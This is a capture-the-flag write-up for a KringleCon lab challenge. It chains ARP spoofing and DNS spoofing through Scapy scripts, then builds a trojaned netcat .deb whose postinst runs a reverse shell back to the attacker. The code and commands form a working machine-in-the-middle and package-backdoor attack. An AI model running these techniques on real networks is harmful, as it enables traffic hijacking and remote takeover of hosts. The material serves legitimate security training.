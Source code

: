 # ARP Shenanigans

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [santamode-arp terminal](https://docker2020.kringlecon.com/?challenge=santamode-arp&id=475c8240-6269-4adb-88cf-3a6db20664fa)<br/>
**Terminal hint**: [Scapy Prepper](../hints/h9.md)


## Objective

!!! question "Request"
    Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Who recused herself from the vote described on the document?

??? quote "Alabaster Snowball"
    It seems that some interloper here at the North Pole has taken control of the host.<br/>
    We need to regain access to some important documents associated with Kringle Castle.<br/>
    Maybe we should try a machine-in-the-middle attack?<br/>
    That could give us access to manipulate DNS responses.<br/>
    But we'll still need to cook up something to change the HTTP response.<br/>
    I'm sure glad you're here Santa.


## Hints

??? hint "Sniffy"
    Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.

??? hint "Embedy"
    The malware on the host does an HTTP request for a `.deb` package. Maybe we can get command line access by sending it a [command in a customized .deb file](http://www.wannescolman.be/?p=98)

??? hint "Resolvy"
    Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.

??? hint "Spoofy"
    The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in `/home/guest/scripts`.


## Solution

Solving this challenge requires intercepting the network traffic coming from Jack's computer to trick the device into downloading a malicious `.deb` package installer containing a reverse shell back to our host. Python scripts (to help with intercepting the ARP and DNS requests) and sample `.deb` packages are provided but they're missing some key components.


### Spoof the ARP response

Start by running a packet capture to verify the traffic being received.

![Packet capture 1](../img/objectives/o9/packet_capture_1.png)

Update the provided [`arp_resp.py`](../artifacts/objectives/o9/arp_resp.py) script so it sends back an ARP response that tricks Jack's machine into thinking we are host 10.6.6.53. We do that by crafting an ARP response packet that has all field values filled out as they normally would, except for the source MAC address fields. Those should contain our MAC address instead (lines 2 and 11). 

```python linenums="1"
if ARP in packet and packet[ARP].op == 1:
    ether_resp = Ether(dst=packet[ARP].hwsrc, type=0x0806, src=macaddr)

    arp_response = ARP(pdst=packet[ARP].psrc)
    arp_response.op = 2
    arp_response.plen = 4
    arp_response.hwlen = 6
    arp_response.ptype = 0x0800
    arp_response.hwtype = 0x01

    arp_response.hwsrc = macaddr
    # we need to make it look as if this came from the original host, not us!
    arp_response.psrc = packet[ARP].pdst
    arp_response.hwdst = packet[ARP].hwsrc
    arp_response.pdst = packet[ARP].psrc
```

!!! info "Sample ARP pcap files"
    Sample ARP packet captures can be found in `~/pcaps/arp.pcap` and on [cloudshark.org](https://www.cloudshark.org/captures/d97c5b81b057).

Start a new packet capture and run the updated [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script.

![Spoof ARP response](../img/objectives/o9/attack_1.png)

We successfully tricked Jack's machine into sending a DNS request for `ftp.osuosl.org` our way.

![Packet capture 2](../img/objectives/o9/packet_capture_2.png)


### Spoof the DNS response

Next, [craft a DNS response](https://www.securitynik.com/2014/05/building-your-own-tools-with-scapy.html) to trick Jack's hijacked machine into thinking *ftp.osuosl.org* is actually our host. In other words, force the DNS request for *ftp.osuosl.org* to resolve to our IP address. Update the provided [`dns_resp.py`](../artifacts/objectives/o9/dns_resp.py) script by changing `ipaddr_we_arp_spoofed` to *10.6.6.53* and add the missing DNS details to the `handle_dns_request()` function.

```python linenums="1"
def handle_dns_request(packet):
    eth = Ether(src=macaddr, dst=packet[Ether].src)     
    ip  = IP(dst=packet[IP].src, src=ipaddr_we_arp_spoofed)
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)  # swap ports

    dns = DNS(
        id=packet[DNS].id,
        qr=1,
        opcode=packet[DNS].opcode,
        aa=1,
        qdcount=packet[DNS].qdcount,
        ancount=1,
        qd=DNSQR(
            qname=packet[DNS].qd.qname,
            qtype=packet[DNS].qd.qtype,
            qclass=packet[DNS].qd.qclass
        ),
        an=DNSRR(
            rrname=packet[DNS].qd.qname,
            rdata=ipaddr,
            ttl=86400
        )
    )

    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
```

!!! info "Sample DNS pcap files"
    Sample DNS packet captures can be found in `~/pcaps/dns.pcap` and on [cloudshark.org](https://www.cloudshark.org/captures/0320b9b57d35).

Start a packet capture and run the updated [`dns_resp.py`](../tools/objectives/o9/dns_resp.py) script, followed by the [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script. 

![Spoof DNS response](../img/objectives/o9/attack_2.png)

Besides the ARP and DNS requests (and our spoofed responses), we're now capturing even more traffic from Jack's machine.

![Packet capture 3](../img/objectives/o9/packet_capture_3.png)

Running a simple Python web server using `python3 -m http.server 80` will tell us that Jack's hijacked machine is making a failed HTTP GET request to `/pub/jfrost/backdoor/suriv_amd64.deb`. Let's host a [malicious payload](http://www.wannescolman.be/?p=98) there. :smiling_imp:


### Create the payload

The best package candidate in `~/debs/` is probably `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` as it will install the `nc` binary we need to establish the [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) connection back to our machine. It also provides a `postinst` file where we can add the reverse shell command itself to make it execute as part of the package post-install phase.

To help remove some of the tedious packaging and setup work create a [`prepare_package.sh`](../tools/objectives/o9/prepare_package.sh) script that unpacks `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` (lines 9-13), adds the `nc` reverse shell command to the `postinst` file (line 18), packages everything back up (line 20), creates the proper directory structure for the HTTP request to succeed (line 22), and start a Python web server to host the `.deb` file (line 27).

```bash linenums="1"
#!/usr/bin/bash
# Start at the right place
cd $HOME/debs/
# Unpack the deb package components
export MYDEB=netcat-traditional_1.10-41.1ubuntu1_amd64.deb 
mkdir packing
cd packing
cp ../$MYDEB .
dpkg -x $MYDEB work
mkdir -p work/DEBIAN
ar -x $MYDEB
tar -xf control.tar.xz ./control
tar -xf control.tar.xz ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
# Add the reverse shell command to postinst
export my_ip=`hostname -I`
echo "/bin/nc ${my_ip} 8888 -e /bin/bash" >> work/DEBIAN/postinst
# Build the package
dpkg-deb --build work/
# Create the path the rogue host is requesting
mkdir -p $HOME/web/pub/jfrost/backdoor/
# Move the malicious package file into place
mv work.deb $HOME/web/pub/jfrost/backdoor/suriv_amd64.deb
# Start the web server
cd $home/web/
python3 -m http.server 80
```


### Run the exploit

Now that all the required components are in place, open 3 additional Tmux windows (for a total of 4). One window should already be running the Python webserver. Use the remaining 3 windows to first start a netcat listener with `nc -nlvp 8888` that will accept the incoming reverse shell connection, then the updated [`dns_resp.py`](../tools/objectives/o9/dns_resp.py) script, and finally the modified [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script.

![Web server log](../img/objectives/o9/attack_3.png)

The hijacked host will be redirected to our web server, download the malicious `suriv_amd64.deb` file, install it, and open a reverse shell as part of the `.deb` package post-install process.

![Reverse shell](../img/objectives/o9/attack_4.png)

We now have access to the [`NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`](../artifacts/objectives/o9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) document.

!!! abstract "NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt"
    ...

    RESOLUTIONS:

    The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle.  Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.”  Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.”  Chairman Frost then noted, “But the additional traffic will be a burden on local residents.”  Dolly explained traffic projections were all in alignment with existing roadways.  Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’”  Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board.  Mrs. Nature made a motion to approve.  Seconded by Mr. Cornelius.  **Tanta Kringle** recused herself from the vote given her adoption of Kris Kringle as a son early in his life. 

    ...

!!! done "Answer"
    Tanta Kringle
